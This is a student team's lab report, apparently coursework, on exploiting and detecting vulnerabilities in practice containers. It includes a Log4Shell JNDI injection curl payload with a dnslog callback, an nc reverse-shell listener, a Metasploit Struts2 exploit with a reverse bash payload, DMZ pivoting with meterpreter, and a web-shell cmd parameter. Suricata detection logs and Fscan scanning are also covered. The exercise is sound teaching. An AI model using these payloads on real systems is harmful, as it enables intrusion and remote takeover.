






# ns-practise心脾十虚小组汇总报告

[小组github网址](https://github.com/liu-jing-yao0526/ns-practise)

## 【实验目的】

#### 基础团队实践训练

团队分工跟练复现完成 [网络安全(2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da/) 。无论团队由多少人所组成，以下按本次实践训练所涉及到的人员能力集合划分了以下团队角色。一人至少承担一种团队角色，老师将按照该角色的评价标准进行 `基于客观事实的主观评价` 。

- 红队：需完成漏洞存在性验证和漏洞利用。
- 蓝队威胁监测：漏洞利用的持续检测和威胁识别与报告。
- 蓝队威胁处置：漏洞利用的缓解和漏洞修复。

上述能力的基本评分原则参考“道术器”原则：最基础要求是能够跟练并复现 [网络安全(2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da/) 中演示实验使用到的工具；进阶标准是能够使用课程视频中 **未使用** 的工具或使用编程自动化、甚至是智能化的方式完成漏洞攻击或漏洞利用行为识别与处置。


## 【实验环境】

- VMware Workstation Pro

- virtual box 

- 两台kali

  

## 【实验步骤】

### 单个独立漏洞验证和利用

#### 环境配置

（1）下载ctf-games，启动相关服务

```shell
# 一次获取所有文件（包括所有子模块管理的文件）
git clone https://github.com/c4pr1c3/ctf-games.git --recursive
cd ctf-games
# （可选）单独更新子模块
git submodule init && git submodule update
# 启动 webgoat 系列服务
cd owasp/webgoat/ && docker-compose up -d
# 启动 juice-shop 及 shake-logger 服务
cd ../../owasp/juice-shop/ && docker-compose up -d
```


（2）添加 vulfocus 的 docker-compose 编排封装

```shell
# 将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令
sudo apt update && sudo apt install -y docker.io docker-compose jq
# 重新登录 shell 生效
sudo usermod -a -G docker ${USER}
```


（3）设置docker的镜像源方便后续下载

```shell
# 切换到 root 用户
sudo su -
# 使用中科大 Docker Hub 镜像源
cat <<EOF > /etc/docker/daemon.json
{
"registry-mirrors": ["https://docker.mirrors.ustc.edu.cn/"]
}
EOF
# 重启 docker 守护进程
systemctl restart docker
# 提前拉取 vulfocus 镜像
docker pull vulfocus/vulfocus:latest
```


#### 漏洞存在性验证

```bash
cd ctf-games/fofapro/vulfocus
#cd到start.sh存在的目录下
sudo su 
#需要使用管理员权限
bash start.sh
#启动第一个docker
```


然后就可以利用IP访问vulfocus


利用用户名和密码admit登入vulfocus

在镜像管理里面搜索寻找log4j2 CVE-2021-44228漏洞并进行下载，在首页可以找到我们下载的漏洞程序

启动漏洞可以得到漏洞的访问地址(由于访问时间有限制，所以接口会隔一段时间变化，所以后文截到的接口也会有所不同)


启动后会得到新的端口，进入后可得新的界面


#### 源代码审计

```bash
#进入容器
$ docker exec -it optimistic_blackwell bash

#查看目录
$ ls

# docker cp <容器名称或ID>:<容器内⽂件路径> <宿主机⽬标路径>
sudo docker cp optimistic_blackwell:/demo/demo.jar ./
```

查看到容器目录下有 demo.jar 文件，拉取到容器的宿主机


关闭防火墙

```bash
#关闭防火墙
$ sudo ufw disable 
```



利用WINSCP将jar包传输到本机

进行反编译


#### 漏洞可利用性验证

使用DNS下发网站：http://www.dnslog.cn/来获取注入的DNS


利用url编码转换器将要注入的payload转换成url形式


利用下面的命令进行jndi注入

```bash
curl -X GET http://192.168.76.128:9460/hello?payload=$%7Bjndi:ldap://sbhd8t.dnslog.cn/exp%7%0A
```


注入成功后可以在DNS网站检测到有结果反馈


然后传输给蓝队，蓝队进行漏洞利用评估得到flag

### 漏洞利用的持续检测和威胁识别

#### 环境配置及监听准备

**attacker**

在攻击者主机上预先准备好一个反弹监听地址，提前运行程序等待反弹连接

```bash
nc -l -p 7777
```


**victim**

victim需确认漏洞靶标已启动

#### 漏洞利用效果持续监测与评估

- 操作窗口：victim

  进入靶标容器，查看`log4j2`的靶标状态

  ```bash
  # 查看服务器中容器状态
  $ docker ps
  ```

  

    ```bash
  # 进入靶标容器终端，并且保留为容器终端的输入形式
  $ docker exec -it CONTAINER_ID bash
    ```

    

    ```bash
  # 调试出反弹shell，测试有效负载
  cat /etc/shells
    ```

  

- 操作窗口：attacker

  攻击端的攻击工具准备

  ```bash
  $ wget https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip  
  # 获取压缩包
  $ shasum -a 256 JNDIExploit-1.2-SNAPSHOT.jar
  # 计算校验和c96ce1de7f739575d86f2e558aeb97dc691077b31a1c510a3dabf096c827dfa8  JNDIExploit-1.2-SNAPSHOT.jar
  $ java -jar JNDIExploit-1.2-SNAPSHOT.jar -u 
  # 获取可用 post-exploit payload 清单
  $ java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.73.129 
  # 192.168.73.129为【攻击者】主机 IP
  ```

  执行攻击负载投放代码

  

  attacker同样进入容器终端

  

  此时attacker已经获取成功，为容器终端模式

    ```bash
  /demo# 
  id
  ps
  ps aux
  ifconfig
  env
    ```

  

  得到flag

    ```bash
  ls /tmp
  # 退出
  exit
    ```

    

#### 漏洞利用流量检测实战

- 启动靶机镜像

  ```bash
  # -d显示运行，--name给docker取名字，-p是指定端口，本机端口：容器端口
  $ docker run -d --name log4shell -p 5555:8080 vulfocus/log4j2-rce-2021-12-09:latest
  ```

  

- 启动 suricata 检测容器

  ```bash
  # eth1对应靶机所在虚拟机的 host-only 网卡 IP
  $ docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i 192.168.73.128" jasonish/suricata:6.0.4
  
  # 更新suricata 规则，更新完成测试完规则之后会自动重启服务
  $ docker exec -it suricata suricata-update -f
  
  # 重启 suricata 容器以使规则生效，一般会自动重启
  # docker restart suricata
  ```

  

- 监视 suricata 日志

  ```bash
  # 监视 suricata 日志
  $ docker exec -it suricata tail -f /var/log/suricata/fast.log
  ```

  

- 复现攻击过程，查看日志

  ```bash
  # 7/26/2023-22:41:19.235176 [] [1:2034647:1] ET EXPLOIT Apache log4j RCE Attempt (http ldap) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034649:1] ET EXPLOIT Apache log4j RCE Attempt (tcp ldap) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034700:1] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M2 (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034757:2] ET EXPLOIT Apache log4j RCE Attempt (http ldap) (Outbound) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034759:1] ET EXPLOIT Apache log4j RCE Attempt (tcp ldap) (Outbound) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034800:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M2 (Outbound) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034661:1] ET HUNTING Possible Apache log4j RCE Attempt - Any Protocol (CVE-2021-44228) [] [Classification: Misc activity] [Priority: 3] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034783:2] ET HUNTING Possible Apache log4j RCE Attempt - Any Protocol (Outbound) (CVE-2021-44228) [] [Classification: Misc activity] [Priority: 3] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555
  ```


### 场景化漏洞攻击

> 以**跨网段渗透**(常见的`dmz`)为例

使用畅课平台上同学提供的手搓DMZ包进行环境编排，并进行修改，即打包的场景中位于内网的2层主机应该设置为不对外开放（对外开放由“true”改为“false”）,如果不进行设置的话启动环境会出现所有容器的访问链接（端口），即不能直接看出第一层主机的端口


下载并发布就能使用该场景，下载后会发现首页新增许多镜像

#### 捕获指定容器的上下行流量

为后续的攻击过程「分析取证」保存流量数据

```bash
# 建议放到 tmux 会话，然后放到后台运行
$ docker ps # 先查看目标容器名称或ID
$ container_name="<替换为目标容器名称或ID>"
$ docker run --rm --net=container:${container_name} -v {PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```



然后就可以利用该端口得到可能的漏洞界面


#### 外层网络渗透:攻破靶标 1

切换到攻击者主机 attacker 进行 metasploit 基础配置

```bash
# metasploit 基础配置
# 更新 metasploit
$sudo apt install -y metasploit-framework

# 初始化 metasploit 本地工作数据库
$sudo msfdb init
```


```bash
# 启动 msfconsole
$msfconsole
```


```bash
# 确认已连接 pgsql
$db_status

# 建立工作区
$ workspace -a demo

# 查看工作区
$ workspace -l
```


要收集服务识别与版本等信息，不断搜索并且完善关键词，最后找到我们所需的 **exp**：`exploit/multi/http/struts2_multi_eval_ognl`

```bash
# search exp in metasploit
$ search struts2 type:exploit

# 查看 exp 详情
# 可以直接通过搜索结果编号，也可以通过搜索结果的 Name 字段
$ info <结果编号或 Name 字段>

# 继续完善搜索关键词
$ search S2-059 type:exploit
```



找到我们所需的 exp 后就选择使用，并且选择设置合适的 exp payload

```bash
# 使用符合条件的 exp
$ use exploit/multi/http/struts2_multi_eval_ognl

# 查看可用 exp payloads
$ show payloads

# 使用合适的 exp payload
$ set payload payload/cmd/unix/reverse_bash
```


查看并且配置 exp 参数，确保所有 `Required=yes` 参数均正确配置

```bash
# 查看 exp 可配置参数列表
$ show options
```



```bash
# 靶机 IP
$ set RHOSTS 192.168.56.102

# 靶机目标端口
$ set rport 29669

# 攻击者主机 IP
$ set LHOST  192.168.142.255 

# 再次检查 exp 配置参数列表
$ show options
```


接下进行 getshell，如果攻击成功，查看打开的 reverse shell，进入会话后，发现无命令行交互提示信息，此时我们试一试 Bash 指令，可以发现我们已经打下了第一个靶标，查看其 `/tmp` 目录，成功得到 `flag1`。

```bash
# getshell
$ exlpoit -j

# 如果攻击成功，查看打开的 reverse shell
$ sessions -l

# 进入会话 1
$ sessions -i 1

# 无命令行交互提示信息，试一试 Bash 指令
$ id

# get flag-1
$ ls /tmp
```

```bash
得到flag1:flag-{bmha6cc7d3b-47d8-46dc-b9ba-1dc8a9b74dfe}
# 通过 CTRL-Z 将当前会话放到后台继续执行
```

#### 中层网络渗透:攻破靶标 2-4

首先是将已经获得的1号会话即外层主机shell升级为`meterpreter`，说是升级并且执行的命令也是`sessions -u 1`，其实是通过上传名为`post/multi/manage/shell_to_meterpreter`的payload的方式开启更多功能的会话：

```bash
msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions
Active sessions
===============
  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.168.76.128:4444 -> 192.168.0.106:68768 (172.29.108.146)

msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.76.128:4433
[*] Sending stage (1017704 bytes) to 192.168.0.106
[*] Meterpreter session 2 opened (192.168.76.128:4433 -> 192.168.0.106:60687) at 2023-07-27 01:44:37 -0400
[*] Command stager progress: 100.00% (467/467 bytes)
msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions

Active sessions
===============
  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:68768 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.76.128:4433 -> 192.168.0.106:60687 (172.29.108.146)

msf6 exploit(multi/http/struts2_multi_eval_ognl) >
```

此时使用2号会话的meterperter就可以查看外层主机的网卡信息并获得了一个新的内网网段192.172.84.0/24


还是需要用meterpreter实现让外层的主机作为中介路由，将下一步内网扫描的包转发过去，此时会用到 post/multi/manage/autoroute 模块，只需要将会话ID填入即可， 之后运行便会自动添加路由信息到Metasploit的路由表中，之后的顺序应该为先进行存活验证后进行端口扫描，如此可以通过存活性筛除掉不必要的IP 地址，可以让端口扫描更快速更高效，这里选择使用模块 post/multi/gather/ping_sweep ，填入必要的options之后就可以进行扫描了：

```bash
msf6 exploit(multi/http/struts2_multi_eval_ognl) > search ping_sweep

Matching Modules
================
   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  post/multi/gather/ping_sweep                   normal  No     Multi Gather Ping Sweep

Interact with a module by name or index. For example info 0, use 0 or use post/multi/gather/ping_sweep

msf6 exploit(multi/http/struts2_multi_eval_ognl) > use 0
msf6 post(multi/gather/ping_sweep) > options

Module options (post/multi/gather/ping_sweep):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       IP Range to perform ping sweep against.
   SESSION                   yes       The session to run this module on

View the full module info with the info, or info -d command.

msf6 post(multi/gather/ping_sweep) > set rhosts 192.172.84.5-254
rhosts => 192.172.84.5-254
msf6 post(multi/gather/ping_sweep) > set session 2
session => 2
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 192.172.84.5-254
[+]     192.172.84.5 host found
[+]     192.172.84.3 host found
[+]     192.172.84.4 host found
[+]     192.172.84.2 host found
[*] Post module execution completed
msf6 post(multi/gather/ping_sweep) >
```

进入会话中，查看 `/tmp` 目录，成功找到 `flag2-4`

```bash
# get flag2-4
$ sessions -c "ls /tmp" -i 6,7,8
```

```bash
得到flag2-4:
flag-{bmh76fd8ddc-29fc-45d6-5d6d-8bba0ffc10df}
flag-{bmh36f772a9-90ba-455d-66d0-58dfce9a001a}
```

#### 内层网络渗透:攻破靶标 5

升级会话和找到连接内层网络的跳板主机，使用`jobs -l`确认后台执行完成后3个会话都升级到了`meterpreter`

```bash
Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:68768 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.172.84.4  192.168.76.128:4433 -> 192.168.0.106:60687 (172.29.108.146)
  3         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60640 (192.172.84.2)
  4         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60630 (192.172.84.3)
  5         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60763 (192.172.84.5)
  6         meterpreter x86/linux  root @ 192.172.84.2  192.168.76.128:4433 -> 192.168.0.106:60854 (192.172.84.2)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 6
[*] Starting interaction with 6...
```

接下来，需要对中层网络中的三个主机逐一进行检索和判断是否拥有双网卡，从而利用成为跳板机来访问到内层网络的靶机

```bash
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:68768 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.172.84.4  192.168.76.128:4433 -> 192.168.0.106:60687 (172.29.108.146)
  3         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60640 (192.172.84.2)
  4         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60630 (192.172.84.3)
  5         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60763 (192.172.84.5)
  6         meterpreter x86/linux  root @ 192.172.84.2  192.168.76.128:4433 -> 192.168.0.106:60854 (192.172.84.2)
  7         meterpreter x86/linux  root @ 192.172.84.3  192.168.76.128:4433 -> 192.168.0.106:60722 (192.172.84.3)
  8         meterpreter x86/linux  root @ 192.173.85.3  192.168.76.128:4433 -> 192.168.0.106:60632 (192.172.84.5)
```

6号会话并不是拥有双网卡的目标跳板主机，剩下的就是对7号和8号会话进行确认，确认到8号会话没有问题后回到`msfconsole`执行`autoroute`的模块添加通过8号会话的路由转发规则，此时就可以直接在`msfconsole`通过`ping_sweep`和`portscan/tcp`来直接进行扫描

通过网卡、路由、ARP 成功发现最深层次的内网 `192.172.85.0/24`

```bash
# 通过网卡、路由、ARP 发现新子网 192.173.85.0/24
$ sessions -c "ifconfig" -i 6,7,8

# portscan through pivot
# 将会话 8 （IP地址为192.172.84.5）升级为 meterpreter shell
$ sessions -u 8

# 新的 meterpreter shell 会话编号此处为 10
$ sessions -i 10
```

可以直接在 meterpreter shell 中直接访问 IP 地址来进行枚举测试

```bash
# 利用跳板机 192.172.84.5 的 meterpreter shell 会话「踩点」最终靶标
$ curl http://192.173.85.2

# 发现没安装 curl ，试试 wget
$ wget http://192.173.85.2

# 发现没有命令执行回显，试试组合命令
$ wget http://192.173.85.2 -O /tmp/result && cat /tmp/result
```



得到输出结果，并且提示我们需要通过 `index.php?cmd=ls /tmp` 的方式执行，最后成功得到 `flag5`

```bash
# 发现 get flag 提示
$ wget 'http://192.173.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result"
```

```
得到flag5:
flag-{bmhd4c8d966-2dcf-43dc-64a8-42ff2a3f7a6c}
```


至此，整个DMZ主机环境的Flag从外层到中层再到内层均已攻破


### 智能化漏洞威胁监测、漏洞攻击和缓解修复

#### 异常流量检测与防护

使用 Docker 的网络命名空间和网络抓包工具来捕获和分析流量

获取容器的 PID 2901（进程ID）

```bash
# 查看容器运⾏情况
docker ps

docker inspect -f '{{.State.Pid}}' <container_name>
# 请将 <container_name> 替换为要监视流量的容器的名称
```


使用 nsenter 命令进入容器的网络命名空间，并使用网络抓包工具（如 tcpdump 或 tshark ）来捕获和分析流量，能够在容器的 eth0 网络接口上捕获流量，并将结果保存到 captured_traffic.pcap 文件 中

```bash
nsenter -t <container_pid> -n
# 将 <container_pid> 替换为上⼀步中获取到的容器 PID

tcpdump -i eth0 -w captured_traffic.pcap
#使用网络抓包工具（如 tcpdump 或 tshark ）来捕获和分析流量
```



在 catch.pcap 文件中可以查看到所有访问到容器的流量,可以查看到疑似远程代码执行的攻击流量


#### 智能化漏洞扫描和攻击工具:Fscan

Fscan:(https://github.com/shadow1ng/fscan)一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。

Fscan使用Go语言编写，git clone下来后，需要编译成可执行程序后使用

```go
go build -ldflags="-s -w " -trimpath main.go
```

工具中提供了多个功能模块：

##### 1.信息搜集:

- 存活探测(icmp)
- 端口扫描

##### 2.爆破功能:

- 各类服务爆破(ssh、smb、rdp等)
- 数据库密码爆破(mysql、mssql、redis、psql、oracle等)

##### 3.系统信息、漏洞扫描:

- netbios探测、域控识别
- 获取目标网卡信息
- 高危漏洞扫描(ms17010等)

##### 4.Web探测功能:

- webtitle探测
- web指纹识别(常见cms、oa框架等)
- web漏洞扫描(weblogic、st2等,支持xray的poc)

##### 5.漏洞利用:

- redis写公钥或写计划任务
- ssh命令执行
- ms17017利用(植入shellcode),如添加用户等

##### 6.其他功能:

- 文件保存

对靶机扫描：

我们直接调用相关参数，即可完整获取到靶机所有信息，该工具可以将该网卡中所有端口信息保存下来

```shell
main.exe -h 192.168.56.102/24
```


